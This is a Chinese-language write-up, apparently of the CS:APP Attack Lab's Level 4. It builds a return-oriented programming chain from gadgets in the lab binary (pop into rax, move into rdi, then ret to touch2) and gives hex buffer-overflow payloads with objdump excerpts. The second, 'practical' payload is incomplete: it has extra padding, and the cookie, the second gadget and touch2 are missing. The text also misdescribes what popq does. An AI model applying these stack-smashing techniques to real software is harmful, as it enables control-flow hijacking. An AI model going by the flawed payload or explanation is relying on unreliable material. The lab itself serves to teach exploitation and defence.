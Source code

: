 ### Level4

先找到farm地址范围：0x401994~0x401ab7，用objdump输出到文件(使用>)后找到该范围，具体参见附录
目标：在栈随机化和栈保护的基础上，实现level2的功能。
- 1、rdi赋值为cookie
- 2、执行touch2

我们不能再找到movq    $0x59b997fa, %rdi或是pushq &0x4017ec这样的代码，但我们可以想其他方式移动到rdi中
首选为popq %rdi，但没有在farm中，我们只找到了58（popq %rax）
因此方式为：
```c
popq %rax               //58
moveq %rax, %rdi        //48 89 c7
ret
```
我们找到所需函数
```c
// 开始地址为0x4019ab，注意之后return为调用该函数的下一条指令（64位8字节）
00000000004019a7 <addval_219>:
  4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:       c3
// 开始地址为0x4019c5
00000000004019c3 <setval_426>:
  4019c3:       c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:       c3
```
所以生成答案：
```c
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00     // 进入第一个函数执行popq %rax及ret
fa 97 b9 59 00 00 00 00     // 我们的cookie，注意此时rsp的值，刚好popq会把此处的值弹出到rax中
c5 19 40 00 00 00 00 00     // 进入第二个函数执行moveq %rax, %rdi及ret
ec 17 40 00 00 00 00 00     // 最终touch2，作为第二个函数return的地址被返回
```

**注意**：这里有一个非常有意思的点是rsp的位置变换，我们假设rsp初始为0x130。调用call getbuf首先压栈0x8存返回地址，然后根据函数内容压栈0x28存放数据。最终返回后rsp也为0x130。这也是为什么我们执行popq %rax（本质为moveq %rsp, %rax；sub $8, %rsp）时，调取的是返回地址以上的test部分栈帧内容。
**注意2**：第二个有意思的点是return的寻址。return本质是弹出栈顶的一个元素作为返回地址。我们可以看到在没有call而直接进入函数后，return寻址会弹出一个栈顶内容作为返回地址。这也是为什么我们执行ret时，它会执行我们的第二个函数。
![栈说明2](https://upload-images.jianshu.io/upload_images/1433829-45d42fcf3d5bcca4.png?imageMogr2/auto-orient/strip|imageView2/2/w/568/format/webp)

### level4实战

我们的方式为：
```c
popq %rax               //58
moveq %rax, %rdi        //48 89 c7
ret
```
首先反编译出farm，然后在farm中找到`58 c3`:401a9b
然后找`48 89 c7 c3`:401a90
获取touch2地址：4018b2
所以根据cookie：0x55daf469生成答案：
```c
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
9b 1a 40 00 00 00 00 00
```